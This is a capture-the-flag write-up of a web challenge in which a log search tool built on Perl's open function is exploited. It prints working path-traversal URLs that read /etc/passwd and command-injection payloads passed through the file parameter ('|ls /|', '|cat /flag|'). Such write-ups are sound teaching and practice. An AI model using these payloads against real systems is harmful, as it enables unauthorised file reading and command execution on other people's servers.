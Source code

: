 # CHALLENGE 02

After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

Hint: Always search deeper.

https://aurora-web.h4ck.ctfcompetition.com/

File names in logs/
```
hexdump.txt
registry.txt
exploit_unobfuscated.js
filenames.txt
hostnames.txt
strings.txt
exploit.js
```

## Step 1
First idea was to bypass 4 letter check. However, the 4 letter check seems to be done both in backend and frontend.

```
<!-- /src.txt -->
```


## Step 2

When you open this log website, the default screen shows hexdump with a search term `aurora`. The output looks as follows:
```
0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|
```
AuroraVNC might be a malware, and maybe a way to go is to retrieved the full hexdump of the file, and understand how this malware works.

We saw the hexdump file. We realised we can pass `0000` and use requests:
```
https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=0000 
````

We can also use  ` |_`, that will return:
```
00002e70  5f 55 42 82 d5 53 50 93  ec b2 e0 6b 08 a2 94 dd  |_UB..SP....k....|
00003570  5f 09 ac 68 46 a5 e3 1c  95 61 27 29 8d a9 05 e5  |_..hF....a')....|
```

We wrote a small program [hexdump_retriever](./challenge02_data/hexdump_retriever.py) and restored the hexdump of the file. However, some pieces were missing from the hexdump, thus there was no point of further analyzing this.

## Step 3

We managed to see a backend Perl code. In this code, the program uses `open` function to open the file. This function is vulnerable, when the user-controlled filename is passed. [Read more](https://www.cgisecurity.com/lib/sips.html). Since we control the input, we can try to retrieve other files in server:

https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../etc/passwd&term=root
The output:
```
root:x:0:0:root:/root:/bin/bash
```
https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../../usr/bin/ls&term=libu

https://aurora-web.h4ck.ctfcompetition.com/?file=../templates/default.html&term=%20%20%20%20

We would like to list the files and directories using `ls | tr -d '\n' ` (print them all in one line). We managed to see the directories and files:
https://aurora-web.h4ck.ctfcompetition.com/?file=%7Cls%20/%7C%20tr%20-d%20%27\n%27|&term=boot
The output:
```
binbootdevetcflaghomeliblib32lib64libx32mediamntoptprocrootrunsbinsrvsystmpusrvarweb-apps
```
Here we can see a file called `flag`. Let's see the content of it.
Finally, the successful paylod was:
https://aurora-web.h4ck.ctfcompetition.com/?file=%7Ccat%20/flag%7C%20tr%20-d%20%27\n%27|&term=http
